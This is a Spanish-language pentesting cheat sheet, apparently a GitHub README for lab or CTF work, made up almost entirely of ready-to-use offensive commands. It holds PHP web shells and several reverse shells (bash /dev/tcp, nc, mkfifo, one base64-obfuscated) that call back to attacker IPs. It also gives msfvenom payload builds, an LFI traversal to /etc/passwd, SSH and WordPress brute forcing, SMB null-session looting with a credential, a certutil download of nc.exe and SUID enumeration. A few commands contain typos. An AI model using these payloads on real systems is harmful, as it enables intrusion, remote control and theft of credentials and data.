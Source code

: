 # Chuleta para pentesting

## Compartir con host

```bash
sudo /usr/bin/vmhgfs-fuse .host:/ /home/kali/compartida -o subtype=vmhgfs-fuse,allow_other

```

## PHP

```php
 <?php system($_REQUEST['cmd']); ?>

 <?php
	if(isset($_REQUEST['cmd'])){
	    echo "<pre>";
	    $cmd = ($_REQUEST['cmd']);
	    system($cmd);
	    echo "</pre>";
	    die;
	}
?>
```

## Reverse Shells

### En Linux:
```bash
bash -c "bash -i >& /dev/tcp/192.168.168.130/443 0>&1"

# Por http
bash -c "bash -i >%26 /dev/tcp/192.168.168.130/443 0>%261"

#Por base64
#Preparacion en atacante
echo "bash -c 'bash -i >%26 /dev/tcp/192.168.168.130/443 0>%261'" | base64
#Comando victima:
echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC44Ljc2LjExMi80NDMgMD4mMQo=" | base64 -d | bash

#Con nc
nc -e /bin/sh 92.168.168.130 443

# Con nc sin párametro -e
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.168.130 443 >/tmp/f

# Con php
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.168.130 443 >/tmp/f'); ?>

```

### En Windows:

```bash
#Con nc
cmd.exe /c "C:\users\joe\documents\nc.exe -e cmd.exe 192.168.11.160 4444"
```
## Fuzzing

```bash
wfuzz -c --hc=404 -t 200 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt http://192.168.11.133/FUZZ 



```
## Tratamiento de la TTY

Previamenta al tratamiento hemos de asegirarnos que estamos en una **bash**. Antes de ponernos a la escucha con nc:

```console
echo $SHELL
# Si el resultado no es /bin/bash hay que lanzar bash
bash 
# Luego lanzar
nc -nlvp 4444
```

```bash
# En victima:
script /dev/null -c bash
# En python:
python3 -c 'import pty;pty.spawn("/bin/bash")'
# CTRL_Z para pasar a segundo plano
# En atacante
stty raw -echo; fg
# En victima
reset xterm
export SHELL=/bin/bash
export TERM=xterm
# Previamente en atacante stty size para ver las dimensiones
stty rows 59 columns 227
```

## LFI

```bash
# Escapando caracteres
%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd%00

# Filtro en BASE64
php://filter/convert.iconv.utf-8.utf-16/resource=test.php
```

## Fuerza bruta
```bash
#Hydra
hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.29.199

```
## SMB

```bash
# Listar recursos con sesión nula
smbclient -N -L //10.10.66.180/
# Tambien
smbclient -L 10.10.10.3 -N --option="client min protocol=NT1"

# Con smbmap y sesion nula
smbmap -H 10.10.10.1000
smbmap -H 10.10.10.237 -u 'null'
#Para conectar ver lo que tiene un recurso, paramero -r:
smbmap -H 10.10.10.1000 -r Replication
#Para descargarnos algo, parámetro --download
smbmap -H 10.10.10.100 --download Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
#Con credenciales:
smbmap -H 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' -r Groups

#SMBGET: Para descargar un directorio entero:
smbget -R smb://active.htb/Replication -U ""

# Ver unidades montadas
showmount -e 10.10.10.180

# Montar unidad
mount -t nfs 10.10.10.180:/site_backups /mnt/nfs
```
## CMS

### Wordpress

```bash
#Inicial
wpscan --url http://10.10.103.70

# Enumerar usuarios
wpscan --url http://10.10.103.70 -e u

# Buscar plugins vulnerables
wpscan --url http://10.10.103.70 -e vp

# Fuerza bruta
wpscan --url https://10.10.103.70/wp-login.php -U Elliot -P fsocity_sorted.dic 
```

## MSFVENOM

```bash
# aplicación war
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.11.160 LPORT=443 -f war > reverse.war

# Para BufferOverflow
msfvenom -p windows/shell_reverse_tcp LHOST=172.16.196.198 LPORT=443 --platform windows -a x86 -b "\x00" -f c

# Como ejecutable para Windows
  msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.51 LPORT=443 -f exe -o reverse.exe
```

## Traspaso de archivos

## En linux

```bash
# Abriendo un servidor http
sudo python3 -m http.server 80

# Compartiendo un recurso SMB
```

## En windows

```cmd
certutil.exe -f -urlcache -split http://192.168.11.160/nc.exe c:\\windows\temp\nc.exe
```
## Escalada

### Permisos SUID

```bash
find \-perm -4000 2>/dev/null

find / -perm -4000 2>/dev/null | xargs ls -lah

find / -perm -u=s -type f 2>/dev/null
```
### Capabilities

```bash
getcup -r / 2>/dev/null

```

## Otros

Trazas icmp
```bash
sudo tcpdump -i tun0 icmp -n
```